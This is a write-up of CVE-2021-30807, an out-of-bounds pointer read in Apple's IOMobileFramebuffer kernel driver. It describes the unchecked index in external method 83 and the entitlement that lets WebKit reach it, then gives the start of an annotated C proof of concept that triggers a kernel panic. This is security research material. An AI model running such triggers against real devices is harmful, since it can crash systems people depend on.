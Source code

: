# CVE-2021-30807: IOMobileFrameBuffer OOB

## The Bug

You have a [great explanation of the vuln here](https://saaramar.github.io/IOMobileFrameBuffer_LPE_POC/), but as summary:

- The vulnerable code path is **external method #83** of the **IOMobileFramebuffer / AppleCLCD** user client: `IOMobileFramebufferUserClient::s_displayed_fb_surface(...)`. This method receives a parameter controlled by the user that is not check in any way and that passes to the next function as **`scalar0`**.

- That method forwards into **`IOMobileFramebufferLegacy::get_displayed_surface(this, task*, out_id, scalar0)`**, where **`scalar0`** (a user-controlled **32-bit** value) is used as an **index** into an internal **array of pointers** without **any bounds check**:

    > `ptr = *(this + 0xA58 + scalar0 * 8);` → passed to `IOSurfaceRoot::copyPortNameForSurfaceInTask(...)` as an **`IOSurface*`**.\
    > **Result:** **OOB pointer read & type confusion** on that array. If the pointer isn't valid, the kernel deref panics → **DoS**.

> [!NOTE]
> This was fixed in **iOS/iPadOS 14.7.1**, **macOS Big Sur 11.5.1**, **watchOS 7.6.1**

> [!WARNING]
> The initial function to call `IOMobileFramebufferUserClient::s_displayed_fb_surface(...)` is protected by the entitlement **`com.apple.private.allow-explicit-graphics-priority`**. However, **WebKit.WebContent** has this entitlement, so it can be used to trigger the vuln from a sandboxed process.

## DoS PoC

The following is the initial DoS PoC from the ooriginal blog post with extra comments:

```c
// PoC for CVE-2021-30807 trigger (annotated)
// NOTE: This demonstrates the crash trigger; it is NOT an LPE.
// Build/run only on devices you own and that are vulnerable.
// Patched in iOS/iPadOS 14.7.1, macOS 11.5.1, watchOS 7.6.1.  (Apple advisory)
// https://support.apple.com/en-us/103144
// https://nvd.nist.gov/vuln/detail/CVE-2021-30807

void trigger_clcd_vuln(void) {
  kern_return_t ret;
  io_connect_t shared_user_client_conn = MACH_PORT_NULL;

  // The "type" argument is the type (selector) of user client to open.
  // For IOMobileFramebuffer, 2 typically maps to a user client that exposes the
  // external methods we need (incl. selector 83). If this doesn't work on your
  // build, try different types or query IORegistry to enumerate.
  int type = 2;

  // 1) Locate the IOMobileFramebuffer service in the IORegistry.
  //    This returns the first matched service object (a kernel object handle).
  io_service_t service = IOServiceGetMatchingService(
      kIOMasterPortDefault,
      IOServiceMatching("IOMobileFramebuffer"));

  if (service == MACH_PORT_NULL) {
    printf("failed to open service\n");
    return;
  }

  printf("service: 0x%x\n", service);

```